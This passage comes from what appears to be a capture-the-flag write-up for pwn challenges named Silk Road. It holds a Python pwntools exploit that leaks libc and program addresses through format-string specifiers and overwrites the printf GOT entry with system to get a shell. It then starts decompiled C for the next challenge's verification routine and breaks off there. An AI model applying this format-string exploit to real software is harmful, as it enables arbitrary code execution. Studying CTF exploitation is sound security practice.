 ```python  
	return ret

sh.recvuntil("Enter your token: ")  
sh.send("98831114236")  
sh.recvuntil(">> ")  
sh.sendline("1")

sh.recvuntil("admin: ")

def format_exp(payload):  
	sh.sendline(payload)  
	sh.recvuntil("invalid: \\")  
	ret = sh.recvuntil('\n')  
	sh.recvuntil("admin: ")  
	return ret[:-1]

libc_addr = int(format_exp("\\%2$p")[2:], 16) - 0x3ed8c0  
print hex(libc_addr)

#mh = libc_addr + e.symbols["__malloc_hook"]  
#format_exp('\\' + cont_shoot([mh, mh+2, mh+4], []))  
#sh.sendline("\\q" + cyclic(128))  
#library function rewrites our input

prog_addr = int(format_exp("\\%9$p")[2:], 16) - 0x98d  
print hex(prog_addr)

pg = prog_addr + 0x3f50 #printf got table entry  
sys = libc_addr + 0x10a38c#e.symbols["system"]

format_exp("\\" + cyclic(7) + 'A' * (8 * 8) + p64(0) * 2 + p64(pg) + p64(pg+2)
+ p64(pg+4))

sh.sendline('\\' + cont_shoot([25, 26, 27], \  
	[sys & 0xffff, (sys >> 0x10) & 0xffff, (sys >> 0x20)], 0x11))

sh.interactive()  
```

## 182 Pwn / Silk Road III

The vulnerability is exactly same, but the verification is different.

```c  
signed __int64 __fastcall sub_1FCA(char *input)  
{  
 int v1; // eax  
 int v2; // ST1C_4  
 unsigned __int64 v3; // rbx  
 size_t v4; // r12  
 size_t v5; // r12  
 char v6; // bl  
 int v7; // ebx  
 int v8; // ebx  
 size_t v9; // rax  
 signed __int64 result; // rax  
 signed int i; // [rsp+14h] [rbp-4Ch]  
 signed int j; // [rsp+14h] [rbp-4Ch]  
 signed int k; // [rsp+14h] [rbp-4Ch]  
 signed int l; // [rsp+14h] [rbp-4Ch]  
 char _1337[5]; // [rsp+22h] [rbp-3Eh]  
 char v16[6]; // [rsp+27h] [rbp-39h]  
 char v17[6]; // [rsp+2Dh] [rbp-33h]  
```